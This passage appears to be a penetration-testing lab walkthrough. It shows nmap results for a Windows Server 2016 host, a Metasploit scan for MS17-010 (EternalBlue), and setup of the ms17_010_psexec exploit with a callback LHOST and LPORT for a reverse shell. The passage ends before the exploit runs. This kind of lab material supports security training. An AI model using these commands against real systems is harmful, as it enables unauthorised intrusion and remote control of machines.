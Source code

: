 **Sample results:**
```
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: SHELLS-WINBLUE
|   NetBIOS computer name: SHELLS-WINBLUE\x00
|   Workgroup: WORKGROUP\x00
```

### Step 2: Vulnerability Assessment

**EternalBlue detection:**
```bash
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 10.129.201.97
run
```

**Expected output:**
```
[+] 10.129.201.97:445 - Host is likely VULNERABLE to MS17-010! - Windows Server 2016 Standard 14393 x64 (64-bit)
```

### Step 3: Exploit Selection

**Search for EternalBlue exploits:**
```bash
search eternal
```

**Available options:**
```
0  exploit/windows/smb/ms17_010_eternalblue       2017-03-14  average  Yes
1  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14  average  No
2  exploit/windows/smb/ms17_010_psexec            2017-03-14  normal   Yes
```

### Step 4: Exploit Configuration

**Select psexec variant:**
```bash
use exploit/windows/smb/ms17_010_psexec
```

**Configure required options:**
```bash
set RHOSTS 10.129.201.97
set LHOST 10.10.14.12
set LPORT 4444
show options
```
